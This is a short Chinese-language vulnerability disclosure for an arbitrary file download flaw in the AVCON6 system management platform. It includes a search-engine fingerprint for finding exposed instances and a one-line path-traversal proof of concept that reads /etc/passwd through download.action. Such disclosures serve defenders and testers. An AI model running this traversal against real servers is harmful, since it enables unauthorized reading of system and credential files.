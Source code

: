 # 

# AVCON6 系统管理平台 download.action 任意文件下载漏洞

## 漏洞描述

AVCON6 系统管理平台 download.action 存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器任意文件

## 漏洞影响

```
AVCON6 系统管理平台
```

## 网络测绘

```
app="AVCON-6"
```

## 漏洞复现

登录页面

![img](./images/202202101910735.png)

验证POC

```php
/download.action?filename=../../../../../../etc/passwd
```

![img](./images/202202101910750.png)
